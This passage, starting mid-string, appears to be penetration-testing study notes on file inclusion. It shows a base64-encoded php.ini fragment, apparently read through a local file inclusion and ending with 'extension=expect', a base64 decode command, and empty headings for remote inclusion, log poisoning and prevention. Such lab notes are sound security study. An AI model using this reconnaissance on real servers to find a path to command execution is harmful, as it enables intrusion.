doZXJlIGVhY2ggYml0IGVuYWJsZXMgb3IgZGlzYWJsZXMgdGhlIGFwcHJvcHJpYXRlIE9QY2FjaGUKOyBwYXNzZXMKO29wY2FjaGUub3B0aW1pemF0aW9uX2xldmVsPTB4N0ZGRkJGRkYKCjtvcGNhY2hlLmR1cHNfZml4PTAKCjsgVGhlIGxvY2F0aW9uIG9mIHRoZSBPUGNhY2hlIGJsYWNrbGlzdCBmaWxlICh3aWxkY2FyZHMgYWxsb3dlZCkuCjsgRWFjaCBPUGNhY2hlIGJsYWNrbGlzdCBmaWxlIGlzIGEgdGV4dCBmaWxlIHRoYXQgaG9sZHMgdGhlIG5hbWVzIG9mIGZpbGVzCjsgdGhhdCBzaG91bGQgbm90IGJlIGFjY2VsZXJhdGVkLiBUaGUgZmlsZSBmb3JtYXQgaXMgdG8gYWRkIGVhY2ggZmlsZW5hbWUKOyB0byBhIG5ldyBsaW5lLiBUaGUgZmlsZW5hbWUgbWF5IGJlIGEgZnVsbCBwYXRoIG9yIGp1c3QgYSBmaWxlIHByZWZpeAo7IChpLmUuLCAvdmFyL3d3dy94ICBibGFja2xpc3RzIGFsbCB0aGUgZmlsZXMgYW5kIGRpcmVjdG9yaWVzIGluIC92YXIvd3d3CjsgdGhhdCBzdGFydCB3aXRoICd4JykuIExpbmUgc3RhcnRpbmcgd2l0aCBhIDsgYXJlIGlnbm9yZWQgKGNvbW1lbnRzKS4KO29wY2FjaGUuYmxhY2tsaXN0X2ZpbGVuYW1lPQoKOyBBbGxvd3MgZXhjbHVzaW9uIG9mIGxhcmdlIGZpbGVzIGZyb20gYmVpbmcgY2FjaGVkLiBCeSBkZWZhdWx0IGFsbCBmaWxlcwo7IGFyZSBjYWNoZWQuCjtvcGNhY2hlLm1heF9maWxlX3NpemU9MAoKOyBDaGVjayB0aGUgY2FjaGUgY2hlY2tzdW0gZWFjaCBOIHJlcXVlc3RzLgo7IFRoZSBkZWZhdWx0IHZhbHVlIG9mICIwIiBtZWFucyB0aGF0IHRoZSBjaGVja3MgYXJlIGRpc2FibGVkLgo7b3BjYWNoZS5jb25zaXN0ZW5jeV9jaGVja3M9MAoKOyBIb3cgbG9uZyB0byB3YWl0IChpbiBzZWNvbmRzKSBmb3IgYSBzY2hlZHVsZWQgcmVzdGFydCB0byBiZWdpbiBpZiB0aGUgY2FjaGUKOyBpcyBub3QgYmVpbmcgYWNjZXNzZWQuCjtvcGNhY2hlLmZvcmNlX3Jlc3RhcnRfdGltZW91dD0xODAKCjsgT1BjYWNoZSBlcnJvcl9sb2cgZmlsZSBuYW1lLiBFbXB0eSBzdHJpbmcgYXNzdW1lcyAic3RkZXJyIi4KO29wY2FjaGUuZXJyb3JfbG9nPQoKOyBBbGwgT1BjYWNoZSBlcnJvcnMgZ28gdG8gdGhlIFdlYiBzZXJ2ZXIgbG9nLgo7IEJ5IGRlZmF1bHQsIG9ubHkgZmF0YWwgZXJyb3JzIChsZXZlbCAwKSBvciBlcnJvcnMgKGxldmVsIDEpIGFyZSBsb2dnZWQuCjsgWW91IGNhbiBhbHNvIGVuYWJsZSB3YXJuaW5ncyAobGV2ZWwgMiksIGluZm8gbWVzc2FnZXMgKGxldmVsIDMpIG9yCjsgZGVidWcgbWVzc2FnZXMgKGxldmVsIDQpLgo7b3BjYWNoZS5sb2dfdmVyYm9zaXR5X2xldmVsPTEKCjsgUHJlZmVycmVkIFNoYXJlZCBNZW1vcnkgYmFjay1lbmQuIExlYXZlIGVtcHR5IGFuZCBsZXQgdGhlIHN5c3RlbSBkZWNpZGUuCjtvcGNhY2hlLnByZWZlcnJlZF9tZW1vcnlfbW9kZWw9Cgo7IFByb3RlY3QgdGhlIHNoYXJlZCBtZW1vcnkgZnJvbSB1bmV4cGVjdGVkIHdyaXRpbmcgZHVyaW5nIHNjcmlwdCBleGVjdXRpb24uCjsgVXNlZnVsIGZvciBpbnRlcm5hbCBkZWJ1Z2dpbmcgb25seS4KO29wY2FjaGUucHJvdGVjdF9tZW1vcnk9MAoKOyBBbGxvd3MgY2FsbGluZyBPUGNhY2hlIEFQSSBmdW5jdGlvbnMgb25seSBmcm9tIFBIUCBzY3JpcHRzIHdoaWNoIHBhdGggaXMKOyBzdGFydGVkIGZyb20gc3BlY2lmaWVkIHN0cmluZy4gVGhlIGRlZmF1bHQgIiIgbWVhbnMgbm8gcmVzdHJpY3Rpb24KO29wY2FjaGUucmVzdHJpY3RfYXBpPQoKOyBNYXBwaW5nIGJhc2Ugb2Ygc2hhcmVkIG1lbW9yeSBzZWdtZW50cyAoZm9yIFdpbmRvd3Mgb25seSkuIEFsbCB0aGUgUEhQCjsgcHJvY2Vzc2VzIGhhdmUgdG8gbWFwIHNoYXJlZCBtZW1vcnkgaW50byB0aGUgc2FtZSBhZGRyZXNzIHNwYWNlLiBUaGlzCjsgZGlyZWN0aXZlIGFsbG93cyB0byBtYW51YWxseSBmaXggdGhlICJVbmFibGUgdG8gcmVhdHRhY2ggdG8gYmFzZSBhZGRyZXNzIgo7IGVycm9ycy4KO29wY2FjaGUubW1hcF9iYXNlPQoKOyBGYWNpbGl0YXRlcyBtdWx0aXBsZSBPUGNhY2hlIGluc3RhbmNlcyBwZXIgdXNlciAoZm9yIFdpbmRvd3Mgb25seSkuIEFsbCBQSFAKOyBwcm9jZXNzZXMgd2l0aCB0aGUgc2FtZSBjYWNoZSBJRCBhbmQgdXNlciBzaGFyZSBhbiBPUGNhY2hlIGluc3RhbmNlLgo7b3BjYWNoZS5jYWNoZV9pZD0KCjsgRW5hYmxlcyBhbmQgc2V0cyB0aGUgc2Vjb25kIGxldmVsIGNhY2hlIGRpcmVjdG9yeS4KOyBJdCBzaG91bGQgaW1wcm92ZSBwZXJmb3JtYW5jZSB3aGVuIFNITSBtZW1vcnkgaXMgZnVsbCwgYXQgc2VydmVyIHJlc3RhcnQgb3IKOyBTSE0gcmVzZXQuIFRoZSBkZWZhdWx0ICIiIGRpc2FibGVzIGZpbGUgYmFzZWQgY2FjaGluZy4KO29wY2FjaGUuZmlsZV9jYWNoZT0KCjsgRW5hYmxlcyBvciBkaXNhYmxlcyBvcGNvZGUgY2FjaGluZyBpbiBzaGFyZWQgbWVtb3J5Lgo7b3BjYWNoZS5maWxlX2NhY2hlX29ubHk9MAoKOyBFbmFibGVzIG9yIGRpc2FibGVzIGNoZWNrc3VtIHZhbGlkYXRpb24gd2hlbiBzY3JpcHQgbG9hZGVkIGZyb20gZmlsZSBjYWNoZS4KO29wY2FjaGUuZmlsZV9jYWNoZV9jb25zaXN0ZW5jeV9jaGVja3M9MQoKOyBJbXBsaWVzIG9wY2FjaGUuZmlsZV9jYWNoZV9vbmx5PTEgZm9yIGEgY2VydGFpbiBwcm9jZXNzIHRoYXQgZmFpbGVkIHRvCjsgcmVhdHRhY2ggdG8gdGhlIHNoYXJlZCBtZW1vcnkgKGZvciBXaW5kb3dzIG9ubHkpLiBFeHBsaWNpdGx5IGVuYWJsZWQgZmlsZQo7IGNhY2hlIGlzIHJlcXVpcmVkLgo7b3BjYWNoZS5maWxlX2NhY2hlX2ZhbGxiYWNrPTEKCjsgRW5hYmxlcyBvciBkaXNhYmxlcyBjb3B5aW5nIG9mIFBIUCBjb2RlICh0ZXh0IHNlZ21lbnQpIGludG8gSFVHRSBQQUdFUy4KOyBUaGlzIHNob3VsZCBpbXByb3ZlIHBlcmZvcm1hbmNlLCBidXQgcmVxdWlyZXMgYXBwcm9wcmlhdGUgT1MgY29uZmlndXJhdGlvbi4KO29wY2FjaGUuaHVnZV9jb2RlX3BhZ2VzPTEKCjsgVmFsaWRhdGUgY2FjaGVkIGZpbGUgcGVybWlzc2lvbnMuCjtvcGNhY2hlLnZhbGlkYXRlX3Blcm1pc3Npb249MAoKOyBQcmV2ZW50IG5hbWUgY29sbGlzaW9ucyBpbiBjaHJvb3QnZWQgZW52aXJvbm1lbnQuCjtvcGNhY2hlLnZhbGlkYXRlX3Jvb3Q9MAoKOyBJZiBzcGVjaWZpZWQsIGl0IHByb2R1Y2VzIG9wY29kZSBkdW1wcyBmb3IgZGVidWdnaW5nIGRpZmZlcmVudCBzdGFnZXMgb2YKOyBvcHRpbWl6YXRpb25zLgo7b3BjYWNoZS5vcHRfZGVidWdfbGV2ZWw9MAoKOyBTcGVjaWZpZXMgYSBQSFAgc2NyaXB0IHRoYXQgaXMgZ29pbmcgdG8gYmUgY29tcGlsZWQgYW5kIGV4ZWN1dGVkIGF0IHNlcnZlcgo7IHN0YXJ0LXVwLgo7IGh0dHA6Ly9waHAubmV0L29wY2FjaGUucHJlbG9hZAo7b3BjYWNoZS5wcmVsb2FkPQoKOyBQcmVsb2FkaW5nIGNvZGUgYXMgcm9vdCBpcyBub3QgYWxsb3dlZCBmb3Igc2VjdXJpdHkgcmVhc29ucy4gVGhpcyBkaXJlY3RpdmUKOyBmYWNpbGl0YXRlcyB0byBsZXQgdGhlIHByZWxvYWRpbmcgdG8gYmUgcnVuIGFzIGFub3RoZXIgdXNlci4KOyBodHRwOi8vcGhwLm5ldC9vcGNhY2hlLnByZWxvYWRfdXNlcgo7b3BjYWNoZS5wcmVsb2FkX3VzZXI9Cgo7IFByZXZlbnRzIGNhY2hpbmcgZmlsZXMgdGhhdCBhcmUgbGVzcyB0aGFuIHRoaXMgbnVtYmVyIG9mIHNlY29uZHMgb2xkLiBJdAo7IHByb3RlY3RzIGZyb20gY2FjaGluZyBvZiBpbmNvbXBsZXRlbHkgdXBkYXRlZCBmaWxlcy4gSW4gY2FzZSBhbGwgZmlsZSB1cGRhdGVzCjsgb24geW91ciBzaXRlIGFyZSBhdG9taWMsIHlvdSBtYXkgaW5jcmVhc2UgcGVyZm9ybWFuY2UgYnkgc2V0dGluZyBpdCB0byAiMCIuCjtvcGNhY2hlLmZpbGVfdXBkYXRlX3Byb3RlY3Rpb249MgoKOyBBYnNvbHV0ZSBwYXRoIHVzZWQgdG8gc3RvcmUgc2hhcmVkIGxvY2tmaWxlcyAoZm9yICpuaXggb25seSkuCjtvcGNhY2hlLmxvY2tmaWxlX3BhdGg9L3RtcAoKW2N1cmxdCjsgQSBkZWZhdWx0IHZhbHVlIGZvciB0aGUgQ1VSTE9QVF9DQUlORk8gb3B0aW9uLiBUaGlzIGlzIHJlcXVpcmVkIHRvIGJlIGFuCjsgYWJzb2x1dGUgcGF0aC4KO2N1cmwuY2FpbmZvID0KCltvcGVuc3NsXQo7IFRoZSBsb2NhdGlvbiBvZiBhIENlcnRpZmljYXRlIEF1dGhvcml0eSAoQ0EpIGZpbGUgb24gdGhlIGxvY2FsIGZpbGVzeXN0ZW0KOyB0byB1c2Ugd2hlbiB2ZXJpZnlpbmcgdGhlIGlkZW50aXR5IG9mIFNTTC9UTFMgcGVlcnMuIE1vc3QgdXNlcnMgc2hvdWxkCjsgbm90IHNwZWNpZnkgYSB2YWx1ZSBmb3IgdGhpcyBkaXJlY3RpdmUgYXMgUEhQIHdpbGwgYXR0ZW1wdCB0byB1c2UgdGhlCjsgT1MtbWFuYWdlZCBjZXJ0IHN0b3JlcyBpbiBpdHMgYWJzZW5jZS4gSWYgc3BlY2lmaWVkLCB0aGlzIHZhbHVlIG1heSBzdGlsbAo7IGJlIG92ZXJyaWRkZW4gb24gYSBwZXItc3RyZWFtIGJhc2lzIHZpYSB0aGUgImNhZmlsZSIgU1NMIHN0cmVhbSBjb250ZXh0Cjsgb3B0aW9uLgo7b3BlbnNzbC5jYWZpbGU9Cgo7IElmIG9wZW5zc2wuY2FmaWxlIGlzIG5vdCBzcGVjaWZpZWQgb3IgaWYgdGhlIENBIGZpbGUgaXMgbm90IGZvdW5kLCB0aGUKOyBkaXJlY3RvcnkgcG9pbnRlZCB0byBieSBvcGVuc3NsLmNhcGF0aCBpcyBzZWFyY2hlZCBmb3IgYSBzdWl0YWJsZQo7IGNlcnRpZmljYXRlLiBUaGlzIHZhbHVlIG11c3QgYmUgYSBjb3JyZWN0bHkgaGFzaGVkIGNlcnRpZmljYXRlIGRpcmVjdG9yeS4KOyBNb3N0IHVzZXJzIHNob3VsZCBub3Qgc3BlY2lmeSBhIHZhbHVlIGZvciB0aGlzIGRpcmVjdGl2ZSBhcyBQSFAgd2lsbAo7IGF0dGVtcHQgdG8gdXNlIHRoZSBPUy1tYW5hZ2VkIGNlcnQgc3RvcmVzIGluIGl0cyBhYnNlbmNlLiBJZiBzcGVjaWZpZWQsCjsgdGhpcyB2YWx1ZSBtYXkgc3RpbGwgYmUgb3ZlcnJpZGRlbiBvbiBhIHBlci1zdHJlYW0gYmFzaXMgdmlhIHRoZSAiY2FwYXRoIgo7IFNTTCBzdHJlYW0gY29udGV4dCBvcHRpb24uCjtvcGVuc3NsLmNhcGF0aD0KCltmZmldCjsgRkZJIEFQSSByZXN0cmljdGlvbi4gUG9zc2libGUgdmFsdWVzOgo7ICJwcmVsb2FkIiAtIGVuYWJsZWQgaW4gQ0xJIHNjcmlwdHMgYW5kIHByZWxvYWRlZCBmaWxlcyAoZGVmYXVsdCkKOyAiZmFsc2UiICAgLSBhbHdheXMgZGlzYWJsZWQKOyAidHJ1ZSIgICAgLSBhbHdheXMgZW5hYmxlZAo7ZmZpLmVuYWJsZT1wcmVsb2FkCgo7IExpc3Qgb2YgaGVhZGVycyBmaWxlcyB0byBwcmVsb2FkLCB3aWxkY2FyZCBwYXR0ZXJucyBhbGxvd2VkLgo7ZmZpLnByZWxvYWQ9CmV4dGVuc2lvbj1leHBlY3QK
```

echo "code above" | base64 -d


### Remote File Inclusion (RFI)

### LFI and File Uploads

### Log poisoining

## Automation and Prevention

### Automated Scanning

### File inclusion Prevention

## Skills Assessment

